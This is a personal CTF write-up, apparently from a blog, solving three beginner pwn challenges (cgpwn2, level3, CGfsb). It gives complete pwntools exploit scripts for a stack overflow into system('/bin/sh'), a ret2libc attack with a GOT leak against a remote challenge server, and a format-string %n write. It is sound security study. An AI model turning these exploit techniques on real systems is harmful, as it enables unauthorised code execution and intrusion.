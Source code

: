 ```yaml
---
title: "Pwn - cgpwn2 | level3 | CGfsb WriteUps"
date: 2021-12-30
tags: ["CTF", "Pwn", "writeup", "wp"]
authors: [nova]
---
```


## cgpwn2 | level3 | CGfsb

### **Miscellaneous**

Due to a lot of things happening in the past half month (switching major to APEX, midterm exams), and encountering problems with the new environment, there hasn't been much content related to CTF. However, there hasn't been much progress in other areas either.

Another competition is coming up soon, so I thought of quickly revisiting a few simple stack-related challenges, cramming for it in a hurry.

Initially, I intended to write a detailed write-up for each question, but it seems more basic, so I combined them all together.

<!--truncate-->

### **cgpwn2**

Directly check with checksec/ida.

![https://oss.nova.gal/img/image-20211112104246870.png](https://oss.nova.gal/img/image-20211112104246870.png)

![https://oss.nova.gal/img/image-20211112105108027.png](https://oss.nova.gal/img/image-20211112105108027.png)

![https://oss.nova.gal/img/image-20211112112126099.png](https://oss.nova.gal/img/image-20211112112126099.png)

The intention of this challenge is quite clear: input the command ("/bin/sh") through the first `gets`, cause overflow in the second `gets`, and then call the `system` function.

> system + return address + command

So, identify the offset and addresses, and easily write the exploit:

```python
from pwn import *

context(log_level='debug')

r = process('./53c24fc5522e4a8ea2d9ad0577196b2f')

r.recvuntil('your name\\n')
r.sendline(b'/bin/sh')

cmd_addr = 0x0804A080
system_addr = 0x08048420
payload = b'A'*0x2A + p32(system_addr) + p32(0) + p32(cmd_addr)

r.recvuntil('here:\\n')
r.sendline(payload)
r.interactive()
```

Obtained flag: `cyberpeace{53e372c0f3209a11ef4429e8e2546bbf}`

### **level3**

From the description of the challenge, it seems to be an ret2libc problem, and this is my first libc leakage, so let's focus on that.

> References: CTF-WIKI

After downloading, there is a gzipped file which contains both a `.so` file and an ELF file.

(For some reason, when I extracted it using tar, the name couldn't be auto-completed, so I ended up manually generating a 32-bit MD5 file name.)

As usual, let's check with checksec (for some reason, symbolic links don't seem to work, it's frustrating me).

![https://oss.nova.gal/img/image-20211112114145579.png](https://oss.nova.gal/img/image-20211112114145579.png)

![https://oss.nova.gal/img/image-20211112140131570.png](https://oss.nova.gal/img/image-20211112140131570.png)

First, the exploit:

```python
from pwn import *

context(log_level="DEBUG")
# r = process("./level3")
r = remote("111.200.241.244", 53829)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
func = elf.sym["vulnerable_function"]

payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
r.recvuntil("Input:\\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))

write_libc = libc.sym["write"]
system_libc = libc.sym["system"]
bin_sh_libc = next(libc.search(b"/bin/sh"))
print('write_addr: ', hex(write_addr))

libc_base = write_addr - write_libc
system_addr = libc_base + system_libc
bin_sh_addr = libc_base + bin_sh_libc

print('bin_sh_addr: ', hex(bin_sh_addr))
print('system_addr: ', hex(system_addr))

payload2 = b'a'*0x88 + b'aaaa' + p32(system_addr) + p32(0) + p32(bin_sh_addr)
r.recvuntil("Input:\\n")
r.send(payload2)
r.interactive()
```

There is a strange occurrence here. While writing the exploit, I was using Python 3.10.0, but this exploit wouldn't work locally. When I switched to Python 2, it worked. The only code change made was in `bin_sh_libc`, using `generator.next()` in Python 2 and `next(generator)` in Python 3, yet the results were the same.

I compared the final payload printout between Py2 and Py3, but found no discernible difference (visually). However, the Py3 remote execution was successful. Mysterious expert-level stuff, I suppose.

### **Analysis**

The entire program is very simple, with only a `vulnerable_function` that can be exploited. The program doesn't directly use the `system` function, hence the natural progression towards GOT table leakage.

Thanks to libc's lazy binding mechanism, if we know the address of a function in libc, we can calculate the offset by subtracting its address in the program from its address in libc. Moreover, since the relative offsets of functions within the libc.so shared library are fixed, after obtaining the offset and the address of the desired function in libc, we can determine its address in the program.

```python
payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
```

Looking at `payload1`, after filling the buffer, the crucial part is setting the return address:

First, overwrite it with `write_plt`, then set `func` as the return address of `write` function. Next, fill in the three parameters for `write`. This approach allows us to capture the address of write in the GOT after write completes.

Next, calculate the offset and find the address, as explained in the exploit.

The program runs to the `read()` function again, making it easy to overwrite a `system` function address there.

### **CGfsb**

![https://oss.nova.gal/img/image-20211112141233440.png](https://oss.nova.gal/img/image-20211112141233440.png)

Clearly a FormatString challenge.

The aim is to ensure that the variable `pwnme` at address `0x0804A068` is set to 8.

First, identify the position of the format string argument.

```python
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(b'AAAA' + b'%x.'*0x10)
r.recvuntil("is:\\n")
print(r.recv())
```

![https://oss.nova.gal/img/image-20211112142129570.png](https://oss.nova.gal/img/image-20211112142129570.png)

We can see `41414141` is at the tenth argument position. So, we just need to write the address of `pwnme` and use `%n` to write 8 to it.

The final exploit:

```python
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(p32(0x0804A068) + b'AAAA' + b'%10$n')
r.interactive()
```

With this, the journey in the beginner section of PWN area concludes. Not an easy journey indeed. 🥵

<!-- AI -->
